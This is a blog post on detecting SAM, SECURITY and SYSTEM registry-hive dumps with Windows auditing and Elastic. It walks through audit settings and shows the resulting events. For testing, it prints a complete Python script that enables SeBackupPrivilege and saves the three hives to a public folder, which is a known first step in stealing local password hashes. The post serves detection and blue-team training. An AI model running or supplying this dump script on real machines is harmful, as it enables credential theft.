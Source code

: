 ```yaml
---
title:  "Detecting SAM registry hive dumps using Elastic!"
header:
  teaser: "/assets/images/samhashdetect.png"
categories:
  - Threat Hunting
tags:
  - elk
  - hashdump
  - thumbdrive
  - SAM
  - SECURITY
  - SYSTEM
  - registry hive
  - elastic
  - kibana
  - logstash
  - filebeats
  - threat hunting
  - blue team
  - winlogbeat
  - sysmon
  - elevationstation
---
```


You guys know what time it is? IT'S GO TIME! Time to dive in and learn how to detect a red teamer trying to grab your local SAM hashes from the registry.  

**Detecting SAM Registry Hive Dumps - The Setup**
-

First, open up `gpedit.msc`

Next, navigate to this section and enable the highlighted subcategories.  You really only need to enable like two of these, but this is to prepare you for the next writeup where we will be detecting thumbdrives as they are plugged in to any USB port!

![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/5e6048d6-5e1b-4c28-95ea-01cf8b405b60)

Okay now for the tedious part...we need to enable auditing for all three keys: **SAM**, **SECURITY**, AND **SYSTEM**

We will start with setting up auditing for the SAM registry hive file:

Open `regedit.exe`

right click on `SAM`

![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/e8fdd743-fae6-4e2d-b97e-a9b9efb71a40)

Choose `"Permissions"`

![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/8c84f925-60d1-4761-98a6-22c5eb76b105)

Choose `"Advanced"`

![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/17fdbc6d-6275-42d7-986d-d4b8d5705789)

Okay, for this next part you want to create a new Security Principal.  We want that new principal to be "Everyone" since we want to audit all accounts that try to access this registry key.  Once that principal is created, it will look like this:

![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/0b2d7016-6f3f-4cd4-9a19-064830c8b69a)

Also make sure you choose `"This key only"`

Almost there.  Next, double click on the newly created `"Everyone"` Principal.  Then, choose `"Show advanced permissions"` in the upper right hand corner.

That will need to look like this:

![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/f2d09f32-1daf-488a-ad28-9a74a72e0c98)

PHEW!  glad that's over with....or is it?!?!  Well sort of.  We still have to do what we just did with the SAM registry file to the SECURITY and SYSTEM. But I don't feel like creating images and typing all this out again, so here's what we're going to do.  I'm going to list what you need to do below for the SECURITY AND SYSTEM keys for your auditing config needs.  Let's go!

**SECURITY**

- `Everyone`
  - `This key only`

**SECURITY/Cache**

- `Everyone`
  - `This key and subkeys`
 
**SECURITY/Policy/Secrets**

- `Everyone`
  - `This key and subkeys`
 
**SYSTEM**

- `Everyone`
  - `This key only`

**Detecting SAM Registry Hive Dumps - Execution Time!!!**
-

Okay, you can choose to dump the SAM, SECURITY, and SYSTEM files manually via regedit.exe (You'll likely get snagged by Windows Defender AV).  Or....you could do the tactical way.  Let's go the tactical route.  We're going to use python to write our registry dump script:

Download the raw python script here: [dumpy.py](https://github.com/g3tsyst3m/undertheradar/blob/main/dumpy.py)

Or, simply copy pasta from here:

```python
import win32security
import win32api
import win32con
import win32process
import os
import sys
import winreg
import ntsecuritycon as ntc
import pywintypes


def ElevatedorNot():
    thehandle=win32security.OpenProcessToken(win32api.GetCurrentProcess(), win32con.TOKEN_QUERY)
    elevated = win32security.GetTokenInformation(thehandle, win32security.TokenElevation)
    #print("is token elevated?", elevated)
    if elevated == 1:
        print("[+] elevated status: TokenIsElevated!!!")
        return True
    else:
        print("[!] token is not elevated...")
        return False

def SetBackupPrivilege():
    try:
        thehandle=win32security.OpenProcessToken(win32api.GetCurrentProcess(), win32con.TOKEN_ADJUST_PRIVILEGES | win32con.TOKEN_QUERY)
        id = win32security.LookupPrivilegeValue(None, "SeBackupPrivilege")
        newPrivileges = [(id, win32security.SE_PRIVILEGE_ENABLED)]
        win32security.AdjustTokenPrivileges(thehandle, False, newPrivileges)
        print("[+] successfully gained SeBackupPrivilege!!!!")
        return True
    except:
        print("[!] couldn't get seDebugPrivilege...")
        return False

def dumpreg():
    #Sam File
    samhandle=win32api.RegOpenKeyEx(win32con.HKEY_LOCAL_MACHINE, "SAM", 0, win32con.KEY_ALL_ACCESS)
    win32api.RegSaveKey(samhandle, "c:\\users\\public\\sam.save", None)
    win32api.RegCloseKey(samhandle)
    
    #System File
    systemhandle=win32api.RegOpenKeyEx(win32con.HKEY_LOCAL_MACHINE, "SYSTEM", 0, win32con.KEY_ALL_ACCESS)
    win32api.RegSaveKey(systemhandle, "c:\\users\\public\\system.save", None)
    win32api.RegCloseKey(systemhandle)
    
    
    #Security File (we dont have permissions to get this by default...but it's really only useful for domain creds and I just want local admin)
    try:
        securityhandle=win32api.RegOpenKeyEx(win32con.HKEY_LOCAL_MACHINE, "SECURITY", 0, win32con.KEY_ALL_ACCESS)
        win32api.RegSaveKey(securityhandle, "c:\\users\\public\\security.save", None)
        win32api.RegCloseKey(securityhandle)
    except:
        print("you don't have permission to grab the SECURITY file...")
    return True
if not ElevatedorNot():
    print("[!] not elevated...\n")
    exit()
if not SetBackupPrivilege():
    print("[!] could not get seBackupPrivilege...\n")
    exit()
if dumpreg():
    print("[+] Successfully dumped SAM, SYSTEM, and SECURITY files!!!\n")
    exit()
else:
    print("[!] couldn't dump registry...\n")
f.close()
```

Save it, and run it:  

![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/8ca9d23e-d9ed-4fbf-815c-c849b7c05d3b)

If everything was setup correctly, you should see the following in windows event logs:

![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/f04ab046-20c6-433d-9cea-8a25d0c2d73c)

And last but certainly not least, in Elastic!

![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/56d79889-9d65-44cd-b92b-a64501f2945d)

![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/8381222b-e061-42c0-b98a-8292b25baa96)

Hope this helps my fellow red team and blue teamers out there. It's knowledge you need regardless of which role you're in. 😸 Blue team for obvious reasons.  Red team, to see the possibilities built-in to Windows for detecting your clever tricks.  Until next time, adios!

